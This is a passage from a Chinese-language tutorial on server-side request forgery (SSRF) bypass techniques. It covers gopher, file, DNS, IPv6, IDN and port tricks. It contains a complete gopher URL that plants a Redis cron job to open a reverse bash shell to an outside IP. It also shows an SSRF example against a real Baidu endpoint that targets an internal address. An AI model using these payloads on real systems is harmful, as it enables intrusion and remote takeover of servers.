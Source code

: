 [![](https://p0.ssl.qhimg.com/t01b1ebbfe67630b34b.png)](https://p0.ssl.qhimg.com/t01b1ebbfe67630b34b.png)

### <a class="reference-link" name="%E9%80%9A%E8%BF%87%E5%90%84%E7%A7%8D%E9%9D%9EHTTP%E5%8D%8F%E8%AE%AE"></a>通过各种非HTTP协议

如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

比如通过gopher，可以在一个url参数中构造POST或者GET请求，从而达到攻击内网应用的目的。

例如可以使用gopher协议对与内网的Redis服务进行攻击，可以使用如下的URL：

```
gopher://127.0.0.1:6379/_1%0d%0a$8%0d%0aflushall%0d%0a3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a/1 bash -i &gt;&amp; /dev/tcp/172.19.23.228/23330&gt;&amp;1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
```

除了gopher协议，File协议也是SSRF中常用的协议，该协议主要用于访问本地计算机中的文件，我们可以通过类似 file:///path/to/file 这种格式来访问计算机本地文件。

使用file协议可以避免服务端程序对于所访问的IP进行的过滤。

例如我们可以通过 file:///d:/1.txt 来访问D盘中1.txt的内容。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8DNS%E8%A7%A3%E6%9E%90"></a>利用DNS解析

如果目标对域名或者IP进行了限制，那么可以使用dns服务器将自己的域名解析到内网ip

### <a class="reference-link" name="%E5%88%A9%E7%94%A8IPv6"></a>利用IPv6

有些服务没有考虑IPv6的情况，但是内网又支持IPv6，则可以使用IPv6的本地IP如 [::] 0000::1 或IPv6的内网域名来绕过过滤。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8IDN"></a>利用IDN

一些网络访问工具如Curl等是支持国际化域名（Internationalized Domain Name，IDN）的，国际化域名又称特殊字符域名，是指部分或完全使用特殊的文字或字母组成的互联网域名。<br>
在这些字符中，部分字符会在访问时做一个等价转换，例如 ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ 和 example.com 等同。利用这种方式，可以用 ① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ 等字符绕过内网限制。

### <a class="reference-link" name="%E6%B7%BB%E5%8A%A0%E7%AB%AF%E5%8F%A3%E5%8F%B7"></a>添加端口号

有些网站限制了子网段,可以加 :80 端口绕过。[http://tieba.baidu.com/f/commit/share/openShareApi?url=http://10.42.7.78:80](http://tieba.baidu.com/f/commit/share/openShareApi?url=http://10.42.7.78:80)

### <a class="reference-link" name="%E4%BC%AA%E5%8D%8F%E8%AE%AE"></a>伪协议

php ssrf中的伪协议：

`file;dict;sftp;ldap;tftp;gopher;http`
